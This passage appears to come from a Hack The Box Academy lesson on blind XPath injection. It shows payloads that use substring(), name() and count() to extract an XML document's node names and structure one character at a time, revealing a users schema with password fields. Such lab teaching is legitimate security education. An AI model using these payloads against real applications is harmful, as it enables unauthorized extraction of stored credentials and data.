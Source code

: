 Now that we know the length of the node's name, we can exfiltrate the name character by character. For that, we can use the payload `invalid' or substring(name(/*[1]),1,1)='a' and '1'='1`, resulting in the following XPath query:

```xpath
/users/user[username='invalid' or substring(name(/*[1]),1,1)='a' and '1'='1']

```

The above query returns data only if the first character of the root node's name equals `a`, which is not the case:

![image](https://academy.hackthebox.com/storage/modules/204/blind_7.png)

We need to iterate through all possible characters until we find the correct one, which in our case is `u`:

![image](https://academy.hackthebox.com/storage/modules/204/blind_8.png)

We successfully exfiltrated the first character of the root node's name. Now we can move on to the second character with the payload `invalid' or substring(name(/*[1]),2,1)='a' and '1'='1` where we again have to check all possible characters until we find a match. If we repeat this until we reach the length we determined in the previous step, we can exfiltrate the full name of the root node as `users`.

#### Exfiltrating the Number of Child Nodes

To determine the number of child nodes for a given node, we can use the `count()` function in a payload like this: `invalid' or count(/users/*)=1 and '1'='1`, resulting in the following XPath query:

```xpath
/users/user[username='invalid' or count(/users/*)=1 and '1'='1']

```

This query returns data if we successfully found the number of child nodes of the `users` node, which in our case is `2`:

![image](https://academy.hackthebox.com/storage/modules/204/blind_11.png)

We can now return to the previous step and target the `users` node's first child by addressing it with `/users/*[1]`. Starting with the node name's length and then the name itself. We must repeat this step until we have reached the maximum depth. Furthermore, we can address siblings by increasing the position. For instance, we can target the `users` node's second child by addressing it with `/users/*[2]`.

This way, we can iteratively exfiltrate the entire XML schema. In our case, doing so reveals the following schema:

```xml
<users>
	<user>
		<username>???</username>
		<password>???</password>
		<desc>???</desc>
	</user>
	<user>
		<username>???</username>
		<password>???</password>
		<desc>???</desc>
	</user>
</users>

```
